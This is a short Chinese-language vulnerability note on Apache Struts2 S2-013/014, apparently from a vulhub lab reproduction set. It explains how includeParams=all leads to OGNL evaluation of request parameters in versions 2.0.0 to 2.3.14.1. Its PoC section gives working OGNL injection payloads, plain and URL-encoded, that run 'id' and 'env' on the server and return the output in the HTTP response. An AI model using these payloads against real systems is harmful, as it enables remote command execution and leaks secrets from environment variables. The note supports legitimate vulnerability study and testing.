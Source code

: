 # Struts2-013/014

## 漏洞介绍

在Struts2 的标签中`<s:a>` 和 `<s:url>` 都包含一个 includeParams 属性其值可设置为 none，get 或 all，参考官方其对应意义如下：

1. none - 链接不包含请求的任意参数值（默认）
2. get - 链接只包含 GET 请求中的参数和其值
3. all - 链接包含 GET 和 POST 所有参数和其值

`<s:a>`用来显示一个超链接，当`includeParams=all`的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。在放置参数的过程中会将参数进行OGNL渲染，造成任意命令执行漏洞。

## 漏洞版本

影响版本: 2.0.0 - 2.3.14.1

漏洞详情:

- http://struts.apache.org/docs/s2-013.html
- http://struts.apache.org/docs/s2-014.html

## poc

```
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}

// 或

${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}
```

**url编码**

```
a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('env').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```

## 参考

>https://github.com/vulhub/vulhub/blob/master/struts2/s2-013/README.zh-cn.md
